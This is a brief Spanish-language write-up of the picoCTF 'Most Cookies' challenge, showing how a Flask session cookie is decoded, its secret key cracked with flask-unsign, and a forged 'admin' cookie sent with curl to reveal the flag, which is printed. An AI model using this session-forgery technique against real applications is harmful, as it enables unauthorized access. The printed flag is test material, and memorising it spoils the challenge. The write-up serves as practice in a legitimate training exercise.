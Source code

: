 **Reto:** Most Cookies

**Descripción:**
Muy bien, suficiente de usar mi propio cifrado. Las galletas de sesión de Flask deben ser muy seguras. [server.py](https://mercury.picoctf.net/static/cae5577e6b8f86e17d7884723204f61e/server.py) [http://mercury.picoctf.net:6259/](http://mercury.picoctf.net:6259/)
**Solución:**
vemos las cookies y encontramos 
brandonogc0107-picoctf@webshell:~$ echo eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z-8w7Q.SiEUoa6Tb0F1229cAf885CJaTgg |base64 -d
{"very_auth":"snickerdoodle"}base64: invalid input 
despues usamos flask-unsign para descifrar la nueva bandera 

curl -s http://mercury.picoctf.net:6259/display -H "Cookie:session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z-9JGA.gmOXp6Qqr05vr9w-oiTNKj0_Raw" | grep pico

==picoCTF{pwn_4ll_th3_cook1E5_5f016958}==
**Notas adicionales:**

**Referencias:** 
https://www.youtube.com/watch?v=ufs1xqSQCUM
